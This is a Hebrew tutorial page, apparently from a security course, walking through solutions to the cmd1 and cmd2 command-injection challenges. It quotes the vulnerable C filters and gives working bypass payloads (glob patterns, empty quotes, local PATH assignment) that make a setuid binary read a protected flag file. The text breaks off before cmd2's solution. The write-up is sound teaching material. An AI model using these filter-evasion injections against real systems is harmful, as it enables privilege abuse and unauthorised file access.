

repository: AmitPinchasi/amittech · page: מחקר-חולשות/1 - חולשות פשוטות ובאגים לוגיים/1.6 - הזרקת פקודות/1.6 - הזרקת פקודות - פתרון/index.html · generator: mkdocs

## פתרון - command injection ועקיפת מסננים

כאן נעבור על הפתרון המלא של שלושת האתגרים, עם ה-payloads המדויקים והסבר למה כל אחד שורד את המסנן. הרעיון המשותף לכל שלושתם: יש פער בין מה שהמסנן רואה (מחרוזת גולמית) לבין מה שהמעטפת מבצעת בפועל (אחרי פרוש, ציטוט, גלוב והרחבה). אנחנו חיים בתוך הפער הזה.

### פתרון תרגיל 1 - cmd1

נזכיר את המבנה של `cmd1.c`:

```c
int filter(char *cmd) {
    int r = 0;
    r += strstr(cmd, "flag") != 0;
    r += strstr(cmd, "sh")   != 0;
    r += strstr(cmd, "tmp")  != 0;
    return r;
}
int main(int argc, char *argv[], char **envp) {
    putenv("PATH=/thisisnotapath");
    if (filter(argv[1])) return 0;
    system(argv[1]);
    return 0;
}
```

שני חסמים: הפקודה לא יכולה להכיל את הרצף `flag` (וגם לא `sh`/`tmp`), וה-PATH מושבת.

**התמודדות עם ה-PATH**: נשתמש בנתיב מוחלט `/bin/cat` במקום `cat` קצר, כך שהמעטפת לא צריכה לחפש ב-PATH.

**התמודדות עם `flag`**: נשתמש בגלוב כדי שהמעטפת תרכיב את שם הקובץ במקומנו. התו `?` מתאים לכל תו בודד:

```bash
./cmd1 "/bin/cat fl?g"
```

בואו נוודא ששני המסננים מרוצים: המחרוזת `/bin/cat fl?g` לא מכילה את הרצף `flag` (יש `?` באמצע), לא מכילה `sh` (יש `cat`, לא `sh`), ולא מכילה `tmp`. המעטפת, לעומת זאת, רואה `fl?g`, סורקת את התיקייה, מוצאת קובץ בשם `flag` ומחליפה את התבנית - ומריצה `/bin/cat flag`. הבינארי setuid, אז ה-`cat` רץ בהרשאות שמאפשרות לקרוא את הדגל.

**חלופות שעובדות גם הן**:

```bash
./cmd1 "/bin/cat fl''ag"     # empty single quote splits the word flag
./cmd1 "/bin/cat fl\"\"ag"   # same idea with an empty double quote
./cmd1 "PATH=/bin cat f*"    # in cmd1 the character = is allowed, so we set PATH locally
```

השורה האחרונה מנצלת פרט חשוב: ב-cmd1 (בניגוד ל-cmd2) התו `=` והמילה `PATH` מותרים, אז אפשר פשוט לתקן את ה-PATH בהשמה מקומית שתקפה רק לפקודה הזו, ואז `cat` הקצר יימצא. הגלוב `f*` שוב מסתיר את המילה `flag`.

**למה זה עבד / איך להכליל**: `strstr()` מחפש התאמה מדויקת ורציפה. כל טכניקה ששוברת את הרציפות של המילה האסורה (ציטוט ריק, גלוב) או מייצרת אותה בעקיפין - עוברת מתחת לרדאר. שיבוש PATH נעקף בקלות בנתיב מוחלט או בהשמה מקומית.

### פתרון תרגיל 2 - cmd2

המבנה של `cmd2.c`:

```c
int filter(char *cmd) {
    int r = 0;
    r += strstr(cmd, "=")      != 0;
    r += strstr(cmd, "PATH")   != 0;
    r += strstr(cmd, "export") != 0;
    r += strstr(cmd, "/")      != 0;
    r += strstr(cmd, "`")      != 0;
    r += strstr(cmd, "flag")   != 0;
    return r;
}
int main(int argc, char *argv[], char **envp) {
    putenv("PATH=/no_command_execution_directory");
    if (filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system(argv[1]);
    return 0;
}
```

עכשיו חסומים גם `/`, גם `=`, גם `PATH`, גם `export`, גם backtick וגם `flag`. אי אפשר לכתוב נתיב מוחלט, אי אפשר לאתחל PATH. נראה שתי שיטות עצמאיות.
